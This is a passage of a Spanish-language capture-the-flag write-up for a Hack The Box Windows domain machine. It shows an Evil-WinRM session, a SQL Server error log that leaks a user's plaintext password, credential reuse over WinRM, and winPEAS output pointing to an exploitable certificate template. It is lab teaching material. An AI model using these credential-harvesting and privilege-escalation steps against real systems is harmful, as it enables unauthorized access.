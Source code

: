 Aquí procedemos a enumerar para ir elevando privilegios. Dentro del disco C encontramos una carpeta SQLServer que es inusual que esté ahí por lo que revisamos que tiene.

```powershell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
d-----         2/6/2023   7:21 AM                Windows
```
Dentro de esta nos encontramos un archivo de ERRORLOG.BAK esta nos muestra los logs de la base de datos. Revisando vemos que el usuario Ryan.Cooper intentó logearse incorrectamente poniendo como usuario la contraseña

```powershell
<SNIP>
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
<SNIP>
```
Guardamos las credenciales y cuando probamos por winrm vemos que tiene acceso a la máquina. Una vez logeado con este usuario al no encontrar algo sustancial a primera vista procedemos a enumerar con [Link](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS "winpeas"). Dentro del archivo que nos arrojó encontramos algo interesante.

```console
Enumerating machine and user certificate files

  Issuer             : CN=sequel-DC-CA, DC=sequel, DC=htb
  Subject            : 
  ValidDate          : 11/18/2022 1:05:34 PM
  ExpiryDate         : 11/18/2023 1:05:34 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : B3954D2D39DCEF1A673D6AEB9DE9116891CE57B2

  Template           : Template=Kerberos Authentication(1.3.6.1.4.1.311.21.8.15399414.11998038.16730805.7332313.6448437.247.1.33), Major Version Number=110, Minor Version Number=0
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
       Smart Card Logon
       KDC Authentication
   =================================================================================================
```
